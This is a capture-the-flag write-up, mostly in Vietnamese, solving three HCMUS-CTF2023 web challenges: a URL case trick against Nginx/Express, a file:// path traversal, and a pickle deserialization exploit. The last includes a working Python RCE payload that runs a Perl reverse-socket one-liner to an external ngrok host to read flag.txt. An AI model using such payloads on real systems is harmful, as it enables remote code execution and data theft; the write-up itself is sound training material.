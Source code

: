 # HCMUS-CTF2023-writeup
# WEB
### Cute Quote

App.js :
```js
const express = require('express')
const app = express()
const port = 3000

app.use(express.json())
app.use(express.static('css'))

app.get('/', (req, res) => {
  res.sendFile('./index.html', { root: __dirname })
})

const quotes = ['Insanity: doing the same thing expecting different results', '{{7*7}}', '<?php system("whoami"); ?>', '42 is the Answer to the Ultimate Question of Life, the Universe, and Everything']
app.get('/api/public/quote', (req, res) => {
  let quote = quotes[Math.floor(Math.random() * quotes.length)]
  res.send(quote)
})

app.get('/api/public/fake', (req, res) => {
  res.send("HMCSU-CFT{fake_flag}")
})

const flag = process.env.FLAG || "HCMUS-CTF{real_flag}"
app.get('/api/private/flag', (req, res) => {
  res.send(flag)
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
}
```

- Nhìn sơ qua source code thì đây là một chall viết bằng Express của NodeJS và server được chạy bằng Nginx.
- Có 3 đường dẫn ta cần quan tâm tới là ```/api/public/fake``` dẫn đến fake flag, ```/api/public/quote``` dẫn đến các câu quote được lưu sẵn và cuối cùng là ```/api/private/flag``` dẫn đến flag.
- Tuy nhiên chúng ta không thể truy cập để ```/api/private/flag``` qua cách thông thường.
- Để có thể truy cập, ta sẽ lợi dụng việc xử lý URL của Nginx và Express để có thể đọc flag.
- Đây là URL của mình: ```urlchall/Api/private/flag```
- Flag ```HCMUS-CTF{where_nginx_meet_express!}```
### Safe Proxy

  ![image](https://user-images.githubusercontent.com/89735990/236755727-7eca3e63-61ea-4823-876b-931e9711136d.png)

- Đây là một chall có tag easy nhưng mình tốn khá nhiều thời gian cho nó.
- Trang web có 3 đường dẫn đến các info khác nhau.

  ![image](https://user-images.githubusercontent.com/89735990/236756363-d4ab4210-0eb8-477c-81b7-19cc4a6059d6.png)


- Nhưng khi click thử thì mình không thể vào được do một lỗi gì đó ở User Agent.
- Do không có source code nên mình cũng dám chắc lỗi nằm ở đâu,Flag nằm ở đâu, cũng như khó xác định được hướng làm bài.
- Nhưng sau khi btc gửi hint cũng như một số thắc mắc của người chơi thì mình đã thử dùng phương pháp path traversal

  ![image](https://user-images.githubusercontent.com/89735990/236756803-5cf00b87-67ad-400e-ba3d-8589ecf14d3c.png)

  ![image](https://user-images.githubusercontent.com/89735990/236756877-689cb4bb-dc51-4455-ad4c-3524036f5446.png)
  
- Mình đã thử với sử dụng cách URI Scheme khác và mình nhận ra có thể dùng ```view-source:file://``` để truyền payload path traversal vào.

  ![image](https://user-images.githubusercontent.com/89735990/236757691-f10082a4-21fe-4a2a-884d-a06f3396d223.png)

- FLag : ```HCMUS-CTF{browser_scheme_is_interesting}```
### Pickle Trouble
Server.py:
```py
import pandas as pd
import io
import time
import threading
import socketserver
import sys
from io import StringIO
import secrets
import os
import numpy as np

FLAG_FILE = "flag.txt"
PORT = int(os.getenv("APP_PORT"))
HOST = "0.0.0.0"

original_stdout = sys.stdout

class Service(socketserver.BaseRequestHandler):
    def handle(self):
        captured_output = StringIO()
        sys.stdout = captured_output
        self.flag = self.get_flag()
        
        token = secrets.token_bytes(16)
        
        self.send(b"Gimme your pickle data size (send as byte string)\n")
        data_size = int(self.request.recv(64).decode())
        
        self.send(b"Gimme your pickle data frame (raw bytes)\n")
        pickle_data = self.receive(data_size)
        df = pd.read_pickle(io.BytesIO(pickle_data))
        
        try:
            if bytes(np.random.choice(df["x"], size=16)) == token:
                print(self.flag)
            else:
                raise Exception("Oh no!")
        except Exception as e:
            print("Oops, you missed it!")
            print(e)
        
        self.send(captured_output.getvalue().encode())
        sys.stdout = original_stdout
        
            
    def get_flag(self):
        with open(FLAG_FILE, 'rb') as f:
            return f.readline()
    
    def send(self, s: str):
        self.request.sendall(s.encode("utf-8"))
        
    def send(self, b: bytes):
        self.request.sendall(b)

    def receive(self, b = 1024):
        data = b""
        while len(data) != b:
            data += self.request.recv(256)
        return data
    
class ThreadedService(socketserver.ThreadingMixIn, socketserver.TCPServer, socketserver.DatagramRequestHandler):
    pass

def main():
    service = Service
    server = ThreadedService((HOST, PORT), service)
    server.allow_reuse_address = True
    server_thread = threading.Thread(target=server.serve_forever)
    server_thread.daemon = True
    server_thread.start()

    print("Server started on " + str(server.server_address) + "!")
    # Now let the main thread just wait...
    while True:
        time.sleep(10)
        
if __name__ == "__main__":
    main()
```
- Đọc sơ qua code mình phát hiện được rằng server không hề kiểm tra user input mà sẽ dùng trực tiếp để deserialied.
- Từ đó ta có thể lợi dụng điều này để có thể truyền input vào và get flag.
```py
    def receive(self, b = 1024):
        data = b""
        while len(data) != b:
            data += self.request.recv(256)
        return data
```
- Hàm recive bắt buộc phải nhận đúng 256 byte nếu không sẽ bị lỗi.
- Ý tưởng của mình ngrok để dựng lên một TCP server rồi dùng perl để mở lại stdin stdout stderr và ```cat flag.txt```
```py
import pickle
import base64
import os
import pandas

#r = remote("127.0.0.1", 4135)
r = remote(
    "pickle-trouble-0d7cddd74709c50c.chall.ctf.blackpinker.com", 443, ssl=True)


class RCE:
    def __reduce__(self):
        cmd = 'perl -e \'use Socket;'
        cmd += "$i='0.tcp.ap.ngrok.io'; $p=10151;"
        cmd += "socket(s, PF_INET, SOCK_STREAM, getprotobyname('tcp'));"
        cmd += "if(connect(s,sockaddr_in($p, inet_aton($i))))"
        cmd += "{open(STDIN, '>&s');open(STDOUT,'>&s'); open(STDERR, '>&s'); exec('cat flag.txt');};\"
        cmd = cmd.ljust(256, 'S')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    r.recvuntil(b"byte string)\n")
    r.sendline(b'256')
    r.recvuntil(b'(raw bytes)\n')
    r.sendline(pickled)
    r.interactive()
    
  ```
 Flag : ```HCMUS-CTF{S||\/|pL3_p1cKlE_ExpL01t-Huh}```

